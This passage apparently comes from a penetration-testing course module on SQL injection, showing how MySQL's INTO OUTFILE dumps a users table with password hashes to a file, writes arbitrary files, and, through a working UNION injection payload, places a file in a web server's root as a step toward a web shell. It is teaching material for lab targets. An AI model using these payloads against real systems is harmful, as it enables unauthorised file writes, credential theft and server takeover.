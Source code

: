 <p>To use it, we can add <code>INTO OUTFILE '...'</code> after our query to export the results into the file we specified. The below example saves the output of the <code>users</code> table into the <code>/tmp/credentials</code> file:</p>
<pre><code class="language-shell-session">SELECT * from users INTO OUTFILE '/tmp/credentials';
</code></pre>
<p>If we go to the back-end server and <code>cat</code> the file, we see that table's content:</p>
<pre><code class="language-shell-session">[!bash!]$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
</code></pre>
<p>It is also possible to directly <code>SELECT</code> strings into files, allowing us to write arbitrary files to the back-end server.</p>
<pre><code class="language-sql">SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
</code></pre>
<p>When we <code>cat</code> the file, we see that text:</p>
<pre><code class="language-shell-session">[!bash!]$ cat /tmp/test.txt 

this is a test
</code></pre>
<pre><code class="language-shell-session">[!bash!]$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
</code></pre>
<p>As we can see above, the <code>test.txt</code> file was created successfully and is owned by the <code>mysql</code> user.</p>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0">Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.</p>
</div>
</div>
<hr/>
<h2>Writing Files through SQL Injection</h2>
<p>Let's try writing a text file to the webroot and verify if we have write permissions. The below query should write <code>file written successfully!</code> to the <code>/var/www/html/proof.txt</code> file, which we can then access on the web application:</p>
<pre><code class="language-sql">select 'file written successfully!' into outfile '/var/www/html/proof.txt'
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use <code>load_file</code> to read the server configuration, like Apache's configuration found at <code>/etc/apache2/apache2.conf</code>, Nginx's configuration at <code>/etc/nginx/nginx.conf</code>, or IIS configuration at <code>%WinDir%\System32\Inetsrv\Config\ApplicationHost.config</code>, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using <a href="https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt">this wordlist for Linux</a> or <a href="https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt">this wordlist for Windows</a>. Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.</p>
</div>
</div>
<p>The <code>UNION</code> injection payload would be as follows:</p>
<pre><code class="language-sql">cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
</code></pre>
<img alt="Search interface with a text box and button labeled 'Search'. Below is an empty table with columns: Port Code, Port City, and Port Volume" class="website-screenshot" data-url="http://SERVER_IP:PORT/search.php?port_code=cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -" src="/storage/modules/33/write_proof.png"/>
<p>We don’t see any errors on the page, which indicates that the query succeeded.  Checking for the file <code>proof.txt</code> in the webroot, we see that it indeed exists:</p>
<img alt="Text displaying: '1 file written successfully! 3 4'" class="website-screenshot" data-url="http://SERVER_IP:PORT/proof.txt" src="/storage/modules/33/write_proof_text.png"/>
<div class="card bg-light">